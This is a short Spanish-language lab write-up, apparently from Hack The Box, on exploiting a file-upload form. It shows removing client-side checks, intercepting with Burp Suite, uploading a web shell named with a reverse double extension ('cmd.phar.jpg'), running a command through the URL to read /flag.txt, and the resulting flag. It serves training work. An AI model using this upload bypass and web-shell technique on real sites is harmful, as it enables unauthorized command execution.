

# Laboratorio: Upload Exploitation 📃

1. Visitamos la página web

<p align="center">
    
</p>

---

2. Primero, eliminamos las validaciones en el `Lado Del Cliente`

```
onchange="checkFile(this)"
accept=".jpg,.jpeg,.png"
```

---

3. Interceptamos la petición con **Burp Suite**

<p align="center">
    
</p>

---

4. Probaremos realizando un ataque de `Doble Extensión Reversa` 

* **Ejemplo:** `cmd.XXX.jpg`

---

5. La extensión válida es `cmd.phar.jpg`, subimos el archivo y podemos ejecutar comandos, por lo que leeremos la **flag** 🏴

* **URL:** `http://[IP]/profile_images/cmd.phar.jpg?cmd=cat%20/flag.txt`

**Output**
`HTB{1_wh173l157_my53lf}`